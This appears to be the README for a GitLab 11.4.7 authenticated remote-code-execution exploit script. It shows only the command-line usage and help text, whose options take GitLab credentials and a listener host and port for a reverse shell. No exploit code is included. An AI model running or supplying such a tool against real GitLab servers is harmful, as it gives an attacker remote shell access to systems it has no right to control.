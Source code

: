 # GitLab-11.4.7-Authenticated-Remote-Code-Execution


<h3> Usage : python gitlab_rce.py -U ~USERNAME~ -P ~PASSWORD~ -l ~LHOST~ -p ~LPORT~ </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        GitLab Username
  -P P        Gitlab Password
  -l L        rev shell lhost
  -p P        rev shell lport
